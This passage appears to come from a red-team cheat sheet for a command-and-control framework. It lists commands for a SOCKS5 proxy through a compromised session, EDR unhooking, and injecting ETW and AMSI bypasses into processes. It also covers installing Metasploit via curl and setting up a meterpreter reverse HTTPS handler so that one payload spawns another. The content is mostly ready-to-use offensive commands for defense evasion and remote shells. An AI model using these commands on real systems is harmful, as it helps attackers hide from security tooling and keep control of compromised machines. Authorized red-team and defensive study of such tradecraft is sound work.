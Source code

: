### Socks Proxy
```
interactive
use <session>
socks5 start
```
---
## Defense Evasion
To run this command need to install extension windows-bypass
### EDR Bypass
```
unhook-boof
```
### ETW Bypass
```
inject-etw-bypass <pid>
```

### AMSI Bypass
```
inject-amsi-bypass <pid>
```
---

## Session Passing
Session passing is using one payload to spawn another payload.
### Install Metasploit
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```
### Setup Metasploit Handler
```
use exploit/multi/handler 
set payload windows/x64/meterpreter_reverse_https
set lhost <msf_ip>
set lport <msf_port>
exploit -jz
```

### Inject Metasploit
```
msf --lhost <msf_ip> --lport <msf_port>
```

## Misc

